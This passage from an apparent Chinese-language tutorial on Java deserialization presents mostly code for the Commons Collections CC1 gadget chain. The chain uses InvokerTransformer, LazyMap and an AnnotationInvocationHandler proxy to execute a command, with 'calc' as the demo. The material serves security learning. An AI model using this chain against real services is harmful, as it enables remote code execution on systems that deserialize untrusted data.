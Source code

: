 ```java
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        //Runtime.getRuntime.exec("calc");
        //最后封装到chainedTransformer中,准备循环调用
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //==================================================================
        //最终步骤调用chainedTransformer前的布置
        HashMap<Object,Object> map=new HashMap<>();
        Map<Object,Object> lazymap = LazyMap.decorate(map,chainedTransformer);
        //==================================================================

        //==================================================================
        //设置一个动态代理
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationconstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationconstructor.setAccessible(true);
        InvocationHandler h=  (InvocationHandler)  annotationInvocationconstructor.newInstance(Override.class, lazymap);

        Map mapProxy=(Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o=annotationInvocationconstructor.newInstance(Override.class,mapProxy);
        //==================================================================
//        serialize(o);
        unserialize("ser.bin");

    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream(filename));
        Object obj=ois.readObject();
        return obj;
    }
}
```





## 2.CC6(CC1)

### 0x1.为什么先讲CC6?
